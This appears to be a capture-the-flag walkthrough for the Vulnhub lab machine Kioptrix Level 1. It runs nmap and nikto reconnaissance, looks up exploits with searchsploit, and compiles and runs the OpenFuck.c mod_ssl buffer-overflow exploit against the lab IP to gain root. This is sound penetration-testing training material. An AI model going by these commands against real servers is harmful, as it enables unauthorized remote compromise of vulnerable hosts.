 
# Kioptrix Level 1
1. We need to find the machine IP on our network:

	* ```ip addr show```
 ``` root@kali:~/Desktop# ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:e7:ed:ef brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.9/24 brd 192.168.50.255 scope global dynamic noprefixroute eth0
       valid_lft 81286sec preferred_lft 81286sec
    inet6 fe80::20c:29ff:fee7:edef/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

```

* 	 * From this output we can see on eth0:inet we have ```192.168.50.9/24```
	 * Map your local network to find the ip of the Vulnhub Machine
	 * ```nmap 192.168.50.9/24```

 ```
Nmap scan report for 192.168.50.207
Host is up (0.000072s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm
MAC Address: 00:0C:29:78:29:0C (VMware)
```

*   * Our Vulnhub Machine is ```192.168.50.207
2. Lets take a look at the nmap
	* We see some ports open but first we should take a look at the site since port 80 is open
3. Taking a look at the webpage
	* ![Screenshot][K1homepage]
	* From the basic page we know that this is an Apache server running on Red Hat Linux
	* Clicking on any of the links will take you to an error page like so:
	* ![Screenshot][K1errorpage]
	* We now know it is running ```Apache 1.3.20```
4. Checking if Apache 1.3.20 is vulnerable
	* We're going to see whether 1.3.20 has published exploits using searchsploit which searches [Exploit-db](https://www.exploit-db.com/)
	* Run ```searchsploit Apache```
	* Looking around, I couldn't find anything that I could use
	* We will try to see if ```nikto``` a web server scanner, can give us any more information
	* Run ```nikto -h 192.168.50.207```
	* Taking a look back at the ```searchsploit``` results, we can see that there is an exploit for mod_ssl versions
```root@kali:~# nikto -h 192.168.50.207
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.50.207
+ Target Hostname:    192.168.50.207
+ Target Port:        80
+ Start Time:         2018-04-09 12:50:40 (GMT-4)
---------------------------------------------------------------------------
...
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 20 item(s) reported on remote host
+ End Time:           2018-04-09 12:51:00 (GMT-4) (20 seconds)
```

* 	* In our previous ```searchsploit``` there was a mod_ssl exploit which we can leverage since we know now that mod_ssl is on 2.8.4

	* ```Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overf | exploits/unix/remote/21671.c```
	* For other searchsploit's, you can get a copy into your current directory by using mirror
	* ```searchsploit -m exploits/unix/remote/21671.c```
	* There are many resources online on how to update OpenFuck.c, but I chose to use [this](https://github.com/gazcbm/openfuck-2017)
5. Exploiting using OpenFuck.c
	* Using the instructions included in the file:
	* ```gcc -o OpenFuck OpenFuck.c -lcrypto```
	* ```./openfuck 0x6b 192.168.50.207 443 -c 50```

ROOTED!